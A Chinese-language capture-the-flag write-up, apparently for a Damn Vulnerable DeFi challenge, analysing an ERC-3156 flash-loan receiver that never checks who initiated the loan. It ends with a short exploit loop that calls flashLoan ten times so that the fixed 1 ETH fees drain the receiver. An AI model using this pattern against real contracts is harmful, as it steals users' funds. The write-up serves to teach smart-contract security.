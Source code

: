 调用的接口:[ERC-3156: Flash Loans (ethereum.org)](https://eips.ethereum.org/EIPS/eip-3156)

该合约以固定的 1 ETH 费用提供闪电贷，然后闪电贷后，合约验证其更新的余额是否超过原始余额加上 1 ETH 费用

对于FlashLoanReceiver.sol

```js
function onFlashLoan(  
    address,  
    address token,  
    uint256 amount,  
    uint256 fee,  
    bytes calldata  
) external returns (bytes32) {  
    assembly { // gas savings  
        if iszero(eq(sload(pool.slot), caller())) {  
            mstore(0x00, 0x48f5c3ed)  
            revert(0x1c, 0x04)  
        }  
    }  

    if (token != ETH)  
        revert UnsupportedCurrency();  

    uint256 amountToBeRepaid;  
    unchecked {  
        amountToBeRepaid = amount + fee;  //偿还贷款 + 1 ETH fee。  
    }  
    \_executeActionDuringFlashLoan();  

    // Return funds to pool  
    SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);  

    return keccak256("ERC3156FlashBorrower.onFlashLoan");  
}
```

我们看方法中的参数, 可以发现第一个`address`未被使用,并且这是闪电贷发起账户的msg.sender

并且对于上述两个合约代码,我们可以发现都没对函数进行检查

那么就导致了访问控制的问题了,我们可以用此账户来代表FlashLoanReceiver(接收闪电贷的账户)执行交易

那么我们就可以用FlashLoanReceiver中的msg.sender去执行10次onFlashLoan函数

Exp:

```js
// 10 transactions  
const ETH = await pool.ETH();  
for(let i = 0; i < 10; i++){  
    await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x"); //"0x" 作为一个空的十六进制字符串，只是为了符合flashLoan方法中的data  
}
```
